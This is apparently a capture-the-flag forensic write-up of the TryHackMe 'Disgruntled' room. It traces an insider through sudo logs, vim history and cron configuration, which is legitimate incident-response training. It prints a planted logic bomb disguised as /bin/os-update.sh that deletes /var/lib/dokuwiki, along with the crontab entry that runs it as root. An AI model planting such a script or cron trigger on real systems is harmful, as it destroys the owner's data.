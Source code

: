 # [Disgruntled](https://tryhackme.com/r/room/disgruntled)


![enter image description here](https://tryhackme-images.s3.amazonaws.com/room-icons/03de138b8dfa8f5b003298c17b73fbd8.png)
## Nothing suspicious... So far
```bash
root@ip-10-10-177-249:/var/log# cat /var/log/auth.log | grep -i sudo | grep -i COMMAND
Dec 22 07:56:27 ip-10-10-158-38 sudo:   ubuntu : TTY=pts/0 ; PWD=/home/ubuntu ; USER=root ; COMMAND=/bin/date -s last year
Dec 22 07:56:36 ip-10-10-158-38 sudo:   ubuntu : TTY=pts/0 ; PWD=/home/ubuntu ; USER=root ; COMMAND=/bin/nano /etc/ssh/sshd_config
Dec 22 07:57:45 ip-10-10-158-38 sudo:   ubuntu : TTY=pts/0 ; PWD=/home/ubuntu ; USER=root ; COMMAND=/bin/systemctl restart ssh
Dec 22 07:58:09 ip-10-10-158-38 sudo:   ubuntu : TTY=pts/0 ; PWD=/home/ubuntu ; USER=root ; COMMAND=/usr/sbin/useradd -m cybert -s /bin/bash
Dec 22 07:58:14 ip-10-10-158-38 sudo:   ubuntu : TTY=pts/0 ; PWD=/home/ubuntu ; USER=root ; COMMAND=/usr/bin/passwd cybert
Dec 22 07:58:24 ip-10-10-158-38 sudo:   ubuntu : TTY=pts/0 ; PWD=/home/ubuntu ; USER=root ; COMMAND=/usr/sbin/visudo
Dec 28 06:17:30 ip-10-10-168-55 sudo:   cybert : TTY=pts/0 ; PWD=/home/cybert ; USER=root ; COMMAND=/usr/bin/apt install dokuwiki
Dec 28 06:18:12 ip-10-10-168-55 sudo:   cybert : TTY=pts/0 ; PWD=/home/cybert ; USER=root ; COMMAND=/bin/rm /var/lib/dpkg/lock
Dec 28 06:18:17 ip-10-10-168-55 sudo:   cybert : TTY=pts/0 ; PWD=/home/cybert ; USER=root ; COMMAND=/usr/bin/dpkg --configure -a
Dec 28 06:18:33 ip-10-10-168-55 sudo:   cybert : TTY=pts/0 ; PWD=/home/cybert ; USER=root ; COMMAND=/usr/bin/lsof /var/lib/dpkg/lock
Dec 28 06:18:36 ip-10-10-168-55 sudo:   cybert : TTY=pts/0 ; PWD=/home/cybert ; USER=root ; COMMAND=/usr/bin/lsof /var/lib/dpkg/lock-frontend
Dec 28 06:18:47 ip-10-10-168-55 sudo:   cybert : TTY=pts/0 ; PWD=/home/cybert ; USER=root ; COMMAND=/bin/rm /var/lib/dpkg/lock-frontend
Dec 28 06:18:52 ip-10-10-168-55 sudo:   cybert : TTY=pts/0 ; PWD=/home/cybert ; USER=root ; COMMAND=/usr/bin/dpkg --configure -a
Dec 28 06:19:01 ip-10-10-168-55 sudo:   cybert : TTY=pts/0 ; PWD=/home/cybert ; USER=root ; COMMAND=/usr/bin/apt install dokuwiki
Dec 28 06:20:46 ip-10-10-168-55 sudo:   cybert : TTY=pts/0 ; PWD=/home/cybert ; USER=root ; COMMAND=/bin/chown www-data:www-data /usr/share/dokuwiki
Dec 28 06:20:55 ip-10-10-168-55 sudo:   cybert : TTY=pts/0 ; PWD=/home/cybert ; USER=root ; COMMAND=/bin/chown www-data:www-data /usr/share/dokuwiki/VERSION /usr/share/dokuwiki/bin /usr/share/dokuwiki/doku.php /usr/share/dokuwiki/feed.php /usr/share/dokuwiki/inc /usr/share/dokuwiki/index.php /usr/share/dokuwiki/install.php /usr/share/dokuwiki/lib /usr/share/dokuwiki/vendor -R
Dec 28 06:21:05 ip-10-10-168-55 sudo:   cybert : TTY=pts/0 ; PWD=/home/cybert ; USER=root ; COMMAND=/bin/chown www-data:www-data /var/lib/dokuwiki
Dec 28 06:21:14 ip-10-10-168-55 sudo:   cybert : TTY=pts/0 ; PWD=/home/cybert ; USER=root ; COMMAND=/bin/chown www-data:www-data /var/lib/dokuwiki/acl /var/lib/dokuwiki/data /var/lib/dokuwiki/inc /var/lib/dokuwiki/lib -R
Dec 28 06:21:20 ip-10-10-168-55 sudo:   cybert : TTY=pts/0 ; PWD=/home/cybert ; USER=root ; COMMAND=/bin/ln -s /var/lib/dokuwiki/data /usr/share/dokuwiki/data
Dec 28 06:21:28 ip-10-10-168-55 sudo:   cybert : TTY=pts/0 ; PWD=/home/cybert ; USER=root ; COMMAND=/bin/ln -s /etc/dokuwiki/license.php /usr/share/dokuwiki/conf/license.php
Dec 28 06:22:12 ip-10-10-168-55 sudo:   cybert : TTY=pts/0 ; PWD=/home/cybert ; USER=root ; COMMAND=/bin/nano /etc/apache2/sites-available/dokuwiki.conf
Dec 28 06:22:25 ip-10-10-168-55 sudo:   cybert : TTY=pts/0 ; PWD=/home/cybert ; USER=root ; COMMAND=/usr/sbin/a2ensite dokuwiki
Dec 28 06:22:37 ip-10-10-168-55 sudo:   cybert : TTY=pts/0 ; PWD=/home/cybert ; USER=root ; COMMAND=/bin/systemctl reload apache2
Dec 28 06:26:52 ip-10-10-168-55 sudo:   cybert : TTY=pts/0 ; PWD=/home/cybert ; USER=root ; COMMAND=/usr/sbin/adduser it-admin
Dec 28 06:27:34 ip-10-10-168-55 sudo:   cybert : TTY=pts/0 ; PWD=/home/cybert ; USER=root ; COMMAND=/usr/sbin/visudo
Dec 28 06:29:14 ip-10-10-168-55 sudo: it-admin : TTY=pts/0 ; PWD=/home/it-admin ; USER=root ; COMMAND=/usr/bin/vi bomb.sh
Dec 28 06:30:10 ip-10-10-168-55 sudo: it-admin : TTY=pts/0 ; PWD=/home/it-admin ; USER=root ; COMMAND=/bin/nano /etc/crontab
Dec 28 07:01:22 ip-10-10-117-219 sudo:   cybert : TTY=pts/0 ; PWD=/home/cybert ; USER=root ; COMMAND=/usr/bin/passwd root
Dec 28 07:01:30 ip-10-10-117-219 sudo:   cybert : TTY=pts/0 ; PWD=/home/cybert ; USER=root ; COMMAND=/usr/bin/passwd root
Dec 28 07:14:07 ip-10-10-243-54 sudo:   cybert : TTY=pts/0 ; PWD=/home/cybert ; USER=root ; COMMAND=/bin/nano /etc/ssh/sshd_config
Dec 28 07:14:27 ip-10-10-243-54 sudo:   cybert : TTY=pts/0 ; PWD=/home/cybert ; USER=root ; COMMAND=/usr/sbin/service sshd restart`cybert` user has executed `sudo apt install dokuwiki` on `Dec 28 06:19:01` and the command logged as `/usr/bin/apt install dokuwiki` in `/home/cybert` directory.
```
### The user installed a package on the machine using elevated privileges. According to the logs, what is the full COMMAND?
A: `/usr/bin/apt install dokuwiki`
### What was the present working directory (PWD) when the previous command was run?
A: `/home/cybert`
## Let’s see if you did anything bad
### Which user was created after the package from the previous task was installed?
```bash
root@ip-10-10-177-249:/var/log# cat /var/log/auth.log | grep adduser
Dec 28 06:26:52 ip-10-10-168-55 sudo:   cybert : TTY=pts/0 ; PWD=/home/cybert ; USER=root ; COMMAND=/usr/sbin/adduser it-admin
```
`cybert` user has executed `adduser` command to create a user name `it-admin`.
### A user was then later given sudo priveleges. When was the sudoers file updated? (Format: Month Day HH:MM:SS)
```bash
root@ip-10-10-177-249:/var/log# cat /var/log/auth.log | grep -i COMMAND | tail -n 8 | head -n 2
Dec 28 06:26:52 ip-10-10-168-55 sudo:   cybert : TTY=pts/0 ; PWD=/home/cybert ; USER=root ; COMMAND=/usr/sbin/adduser it-admin
Dec 28 06:27:34 ip-10-10-168-55 sudo:   cybert : TTY=pts/0 ; PWD=/home/cybert ; USER=root ; COMMAND=/usr/sbin/visudo
```
`cybert` user executes  `visudo` command to configure `/etc/sudoers/` file, and give `sudo` permissions to `it-admin` user.
### A script file was opened using the "vi" text editor. What is the name of this file?
```bash
root@ip-10-10-177-249:/var/log# cat /var/log/auth.log | grep -i COMMAND | tail -n 8 | head -n 3
Dec 28 06:26:52 ip-10-10-168-55 sudo:   cybert : TTY=pts/0 ; PWD=/home/cybert ; USER=root ; COMMAND=/usr/sbin/adduser it-admin
Dec 28 06:27:34 ip-10-10-168-55 sudo:   cybert : TTY=pts/0 ; PWD=/home/cybert ; USER=root ; COMMAND=/usr/sbin/visudo
Dec 28 06:29:14 ip-10-10-168-55 sudo: it-admin : TTY=pts/0 ; PWD=/home/it-admin ; USER=root ; COMMAND=/usr/bin/vi bomb.sh
```
 `it-admim` user executed `vi bomb.sh` command in  `/home/it-admin` to edit `/home/it-admin/bomb.sh` file.
 ## Bomb has been planted. But when and where?
 ### What is the command used that created the file `bomb.sh`?
 ```bash
 root@ip-10-10-177-249:~# cat /home/it-admin/.viminfo | head -n 17|tail -n 4
:q!
|2,0,1672208992,,"q!"
:saveas /bin/os-update.sh
|2,0,1672208983,,"saveas /bin/os-update.sh"
 ```
 `it-admin` user saves a file executing `:saveas /bin/os-update.sh` instead of using  `:wq!` or `^zZ`. 
 
 Taking the previous entries into account, the user `it-admin` edited the file `/home/it-admin/bomb.sh` using the `vi` editor and saved it as `/bin/os-update.sh` using the command `:saveas /bin/os-update.sh`.
### When was the file from the previous question last modified? (Format: Month Day HH:MM)
```bash
root@ip-10-10-177-249:~# stat /bin/os-update.sh 
  File: /bin/os-update.sh
  Size: 325       	Blocks: 8          IO Block: 4096   regular file
Device: 10302h/66306d	Inode: 26          Links: 1
Access: (0644/-rw-r--r--)  Uid: (    0/    root)   Gid: (    0/    root)
Access: 2024-08-02 09:45:14.760005052 +0000
Modify: 2022-12-28 06:29:43.998004273 +0000
Change: 2022-12-28 06:29:43.998004273 +0000
 Birth: -
```
A: `Dec 28 06:29`
### What is the name of the file that will get created when the file from the first question executes?

```bash
root@ip-10-10-177-249:~# cat /bin/os-update.sh 
# 2022-06-05 - Initial version
# 2022-10-11 - Fixed bug
# 2022-10-15 - Changed from 30 days to 90 days
OUTPUT=`last -n 1 it-admin -s "-90days" | head -n 1`
if [ -z "$OUTPUT" ]; then
        rm -r /var/lib/dokuwiki
        echo -e "I TOLD YOU YOU'LL REGRET THIS!!! GOOD RIDDANCE!!! HAHAHAHA\n-mistermeist3r" > /goodbye.txt
fi
```
A: `goodbye.txt`
## Following the fuse
### At what time will the malicious file trigger? (Format: HH:MM AM/PM)
```bash
root@ip-10-10-177-249:~# cat /etc/crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
0 8	* * *	root	/bin/os-update.sh
#
```
A `cronjob` comprised by attacker assigned to `root` user that executes `/bin/os-update.sh` everyday at `08:00 AM`.  You can use [Crontab.guru](https://crontab.guru/) to convert it.
